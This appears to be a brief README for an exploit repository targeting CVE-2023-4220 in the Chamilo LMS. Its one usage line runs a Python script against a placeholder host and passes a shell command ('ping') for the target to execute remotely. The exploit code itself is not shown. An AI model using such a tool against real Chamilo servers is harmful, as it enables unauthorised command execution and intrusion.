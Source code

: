 # CVE-2023-4220
Exploit developed against `Chamilo LMS` based on [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220)

## Usage
```shell-session
$ python3 CVE-2023-4220.py -u http://lms.example.com -c 'ping -c1 10.10.XX.XX'
```
